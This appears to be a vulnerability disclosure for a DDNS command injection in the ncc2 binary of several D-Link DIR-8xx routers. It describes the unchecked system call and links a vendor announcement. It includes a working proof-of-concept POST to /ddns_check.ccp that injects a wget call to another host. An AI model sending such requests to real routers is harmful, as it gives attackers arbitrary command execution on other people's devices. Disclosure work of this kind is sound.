# D-LINK_Router_Command_Injection

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA

<img src="./img/image-20211219002658341.png" alt="image-20211219002658341" style="zoom:50%;" />

​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	

<img src="./img/image-20211219003013336.png" alt="image-20211219003013336" style="zoom:50%;" />

#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```

#### TEXT

​	Local listening port 9988

![image-20211219003400865](./img/image-20211219003400865.png)

​	Send the following packets

​	![image-20211219003610213](./img/image-20211219003610213.png)

​	HTTP requests from routers can be received locally	

![image-20211219003729282](./img/image-20211219003729282.png)


#### Official certification
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10264
